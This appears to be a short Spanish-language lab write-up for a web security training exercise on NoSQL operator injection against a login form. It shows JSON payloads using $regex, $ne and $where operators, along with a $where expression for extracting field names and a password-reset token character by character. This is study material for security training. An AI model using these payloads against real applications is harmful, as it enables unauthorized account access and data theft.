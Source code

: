 ```yaml
---
layout: default
title: 4 - Exploiting NoSQL operator injection to extract unknown fields
---
```

La pass tiene números
```json
{
  "username": "carlos",
  "password": {
    "$regex": ".*\\d.*" 
  }
}

//Tira account locked
```

Tiene minúsculas
```json
{
  "username": "carlos",
  "password": {
    "$regex": ".*[a-z].*"
  }
}

//Tira account locked
```

No tiene mayúsculas
```json
{
  "username": "carlos",
  "password": {
    "$regex": ".*[A-Z].*"
  }
}

//Tira invalid passwords
```

```json
{
	"username":"carlos",
	"password": {"$ne":"invalid"},
	"$where": "0" //false
}
//Tira invalid passwords -> false
```


```json
{
	"username":"carlos",
	"password": {"$ne":"invalid"},
	"$where": "1" //true
}
//Tira account locked -> true
```

Para ir poco a poco sacando los atributos del objeto

ATRIBUTO -> int del atributo 1..n
Primer §§ -> Posición de la 0 a ...
Segundo §§ -> carácter
```
"$where":"Object.keys(this)[ATRIBUTO].match('^.{§§}§§.*')"
```

Primero -> surname
Segundo -> Password 
Tercero -> Email
Cuarto -> passwordReset

Fuzzemos por el passwordReset
```
"$where":"this.passwordReset.match('^.{§§}§§.*')"
```

